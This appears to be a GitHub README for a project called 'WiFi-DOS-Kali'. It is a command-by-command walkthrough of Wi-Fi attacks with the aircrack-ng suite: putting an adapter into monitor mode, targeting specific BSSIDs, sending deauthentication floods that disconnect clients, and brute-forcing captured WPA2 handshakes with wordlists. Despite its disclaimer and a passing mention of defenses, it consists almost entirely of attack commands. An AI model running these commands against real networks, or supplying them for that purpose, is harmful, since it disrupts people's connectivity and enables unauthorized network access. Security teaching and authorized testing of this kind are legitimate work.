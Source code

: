 # WiFi-DOS-Kali

Demo of Wi-Fi DoS attacks via Kali Linux using tools like Aircrack-ng and Aireplay-ng.  
This project demonstrates deauthentication attacks, brute-force cracking, and defenses.  
It also includes a presentation on attack types, tools, and commands.  

**⚠️ For ethical research and educational purposes only.**

---

## Table of Contents

1. [Demonstration](#demonstration)
2. [Instructions](#instructions)
3. [Prerequisites](#prerequisites)

---

## Demonstration

### View Network Interfaces
```bash
ifconfig
```

### Start Monitor Mode on `wlan0`
```bash
airmon-ng start wlan0
```

### Kill Interfering Processes
```bash
airmon-ng check kill
```

### Confirm Monitor Mode
```bash
iwconfig
```

### Start Scanning for Wi-Fi Networks
```bash
airodump-ng -i wlan0mon
```

### Target Specific BSSID and Channel
```bash
airodump-ng --bssid 8E:F5:A3:77:D6:DB -c 3 -- wlan0
airodump-ng --bssid A8:32:9A:00:CE:96 -c 11 -w /root/Desktop/wpa2 -- wlan0mon
```

### Deauthentication Attack (Kick Clients Out)
```bash
aireplay-ng -0 20 -a A8:32:9A:00:CE:96 -c 08:4A:CF:7D:47:14 wlan0mon
```

### Brute Force Attack
```bash
aircrack-ng -a2 -b 78:1D:BA:93:1F:9A -w /root/Desktop/rockyou.txt
aircrack-ng -a2 -b A8:32:9A:00:66:E8 -w /media/root/CAF04BE4F04BD57B/test/word.txt /media/root/CAF04BE4F04BD57B/test/Digicom-01.cap
```

### Stop Monitor Mode
```bash
airmon-ng stop wlan0mon
service network-manager restart
```

---

## Instructions

1. Save the script as `wifi_dos_attack.py`.
2. Run it with `sudo`:
   ```bash
   sudo python3 wifi_dos_attack.py
   ```
3. Ensure the Aircrack-ng suite is installed:
   ```bash
   sudo apt install aircrack-ng
   ```

---

## Prerequisites

- **Operating System**: Kali Linux
- **Tools**: Aircrack-ng suite (includes `airodump-ng`, `aireplay-ng`, etc.)
- **Hardware**: A Wi-Fi adapter capable of monitor mode and packet injection
- **Permissions**: Root access (`sudo`)

---

**Disclaimer**:  
This project is intended for ethical research and educational purposes only.  
Unauthorized use of these tools may violate laws and regulations.